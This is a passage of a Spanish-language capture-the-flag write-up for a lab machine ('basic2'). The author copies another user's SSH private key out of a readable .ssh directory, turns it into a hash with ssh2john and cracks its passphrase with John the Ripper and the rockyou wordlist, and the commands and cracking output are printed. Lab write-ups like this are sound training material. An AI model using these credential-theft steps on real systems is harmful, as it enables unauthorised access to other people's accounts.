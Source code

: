 Uno de los archivos más relevantes que descubrimos es pass.bak. Sin embargo, para poder acceder y leer su contenido, es necesario tener privilegios del usuario "kay".

Accedimos al directorio .ssh del usuario "kay" y encontramos varios archivos, entre ellos el más notable es id_rsa, que es la clave privada SSH del usuario. Este archivo es de particular interés, ya que puede permitirnos acceder a otros sistemas o servicios donde "kay" tenga permisos, utilizando su clave privada. Aquí está el listado de archivos que encontramos:

```bash
jan@basic2:/home/kay/.ssh$ ls -al
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

Podemos utilizar la clave id_rsa para acceder a la máquina como el usuario "kay". Sin embargo, antes de proceder, debemos asegurarnos de ajustar los permisos de la clave para que sea utilizada correctamente. Esto implica configurar los permisos adecuados para que la clave privada sea legible solo por el usuario actual.

```bash
chmod 600 id_rsa
```

Una vez que hemos configurado los permisos adecuados para la clave id_rsa, podemos proceder a utilizarla para acceder a la máquina con autenticación basada en esta clave.

```bash
ssh kay@10.10.210.76 -i id_rsa
Enter passphrase for key 'id_rsa':
```

Dado que la clave id_rsa está encriptada y se nos solicita una contraseña para desencriptarla, podemos emplear la herramienta ssh2john para convertir la clave a un formato que sea compatible con John the Ripper. Esto nos permitirá intentar descifrar la contraseña de la clave y obtener acceso a la máquina.

```bash
ssh2john id_rsa > hash_id_rsa
```

Ahora que contamos con el hash generado a partir de la clave id_rsa, podemos suministrarlo a John the Ripper para que lleve a cabo un proceso de desciframiento y así intentar recuperar la contraseña original de la clave.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
Created directory: /home/rumamr9/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2023-05-20 00:16) 20.00g/s 1655Kp/s 1655Kc/s 1655KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
